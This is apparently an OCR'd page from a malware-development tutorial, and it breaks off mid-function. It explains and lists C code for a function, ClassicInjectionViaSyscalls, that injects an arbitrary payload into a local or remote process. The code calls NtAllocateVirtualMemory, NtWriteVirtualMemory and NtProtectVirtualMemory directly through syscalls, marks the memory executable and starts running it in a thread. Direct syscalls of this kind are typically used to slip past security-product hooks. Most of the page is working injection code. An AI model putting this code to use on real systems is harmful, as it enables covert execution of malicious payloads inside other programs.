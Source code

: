 Next, the `ClassicInjectionViaSyscalls` function will be responsible for executing the payload, `pPayload`, in the target process, `hProcess`. The function returns `FALSE` if it fails to execute the payload and `TRUE` if it succeeds. Additionally, the function can be used to inject both local and remote processes depending on the value of `hProcess`.

```c
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {


	Syscall   St                     = { 0 };
	NTSTATUS  STATUS                 = 0x00;
	PVOID     pAddress               = NULL;
	ULONG     uOldProtection         = NULL;

	SIZE_T    sSize                  = sPayloadSize,
              sNumberOfBytesWritten	= NULL;
	HANDLE    hThread                = NULL;

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)){
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}
	
//--------------------------------------------------------------------------
	
	// Allocating memory 
	if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();

//--------------------------------------------------------------------------

	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread 
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
```
